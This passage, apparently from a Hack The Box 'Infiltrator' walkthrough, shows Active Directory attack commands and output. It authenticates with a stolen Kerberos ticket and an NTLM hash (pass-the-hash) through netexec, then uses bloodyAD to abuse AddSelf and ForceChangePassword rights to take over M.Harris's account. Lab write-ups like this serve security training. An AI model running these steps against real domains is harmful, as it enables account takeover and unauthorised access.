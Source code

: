 This both leaks the NTLM for the account and saves a new TGT as `e.rodriguez.ccache`. I’ll use the ticket to authenticate with `netexec`, and it works!

```

oxdf@hacky$ KRB5CCNAME=e.rodriguez.ccache netexec smb infiltrator.htb --use-kcache
SMB         infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         infiltrator.htb 445    DC01             [+] infiltrator.htb\e.rodriguez from ccache

```

The NTLM hash also leaks, and it works to auth as well:

```

oxdf@hacky$ netexec smb dc01.infiltrator.htb -u E.rodriguez -H b02e97f2fdb5c3d36f77375383449e56
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\E.rodriguez:b02e97f2fdb5c3d36f77375383449e56 

```

I can use either the ticket or the NTLM hash to auth as E.rodriguez for the next steps.

### Auth as M.Harris

#### Add E.Rodriguez to CHIEFS MARKETING Group

I’ll use [BloodyAD](https://github.com/CravateRouge/bloodyAD) to add E.Rodriguez to the Chiefs Marketing group, as they have `AddSelf` on the group:

```

oxdf@hacky$ bloodyAD -u e.rodriguez -p :b02e97f2fdb5c3d36f77375383449e56 --host dc01.infiltrator.htb -d infiltrator.htb add groupMember "CHIEFS MARKETING" e.rodriguez 
[+] e.rodriguez added to CHIEFS MARKETING

```

That same command over Kerberos auth looks like:

```

oxdf@hacky$ KRB5CCNAME=e.rodriguez.ccache bloodyAD -u e.rodriguez -k --host dc01.infiltrator.htb -d infiltrator.htb add groupMember "CHIEFS MARKETING" e.rodriguez
[+] e.rodriguez added to CHIEFS MARKETING

```

#### Change M.Harris’ Password

Members of the Chiefs Marketing group have `ForceChangePassword` over M.Harris. As E.Rodriguez is now a member of that group, I’ll change this with `bloodyAD`:

```

oxdf@hacky$ bloodyAD -u e.rodriguez -p :b02e97f2fdb5c3d36f77375383449e56 --host dc01.infiltrator.htb -d infiltrator.htb set password m.harris "0xdf0xdf!"
[+] Password changed successfully!

```

